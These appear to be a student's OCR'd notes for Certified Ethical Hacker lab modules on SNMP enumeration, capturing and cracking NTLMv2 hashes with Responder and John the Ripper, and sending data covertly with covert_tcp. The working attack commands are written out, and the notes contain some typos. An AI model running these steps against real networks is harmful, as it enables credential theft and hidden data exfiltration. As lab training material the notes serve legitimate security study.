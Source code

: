 **Module 04: Enumeration**

**Lab2-Task1: Enumerate SNMP using snmp-check**

- nmap -sU -p 161 [IP]
- **snmp-check [IP]**

**Addition**

- nbtstat -a [IP]
- nbtstat -c

**Module 06: System Hacking**

**Lab1-Task1: Perform Active Online Attack to Crack the System&#39;s Password using Responder**

- **Linux:**
  - cd
  - cd Responder
  - chmox +x ./Responder.py
  - **sudo ./Responder.py -I eth0**
  - passwd: \*\*\*\*
- **Windows**
  - run
  - \\CEH-Tools
- **Linux:**
  - Home/Responder/logs/SMB-NTMLv2-SSP-[IP].txt
  - sudo snap install john-the-ripper
  - passwd: \*\*\*\*
  - **sudo john /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP-10.10.10.10.txt**

**Lab3-Task6: Covert Channels using Covert\_TCP**

- **Attacker:**
  - cd Desktop
  - mkdir Send
  - cd Send
  - echo &quot;Secret&quot;\&gt;message.txt
  - Place-\&gt;Network
  - Ctrl+L
  - **smb://[IP]**
  - Account &amp; Password
  - copy and paste covert\_tcp.c
  - **cc -o covert\_tcp covert\_tcp.c**
- **Target:**
  - **tcpdump -nvvx port 8888 -I lo**
  - cd Desktop
  - mkdir Receive
  - cd Receive
  - File-\&gt;Ctrl+L
  - smb://[IP]
  - copy and paste covert\_tcp.c
  - cc -o covert\_tcp covert\_tcp.c
  - **./covert\_tcp -dest 10.10.10.9 -source 10.10.10.13 -source\_port 9999 -dest\_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt**
  - **Tcpdump captures no packets**
- **Attacker**
  - **./covert\_tcp -dest 10.10.10.9 -source 10.10.10.13 -source\_port 8888 -dest\_port 9999 -file /home/attacker/Desktop/send/message.txt**
  - Wireshark (message string being send in individual packet)
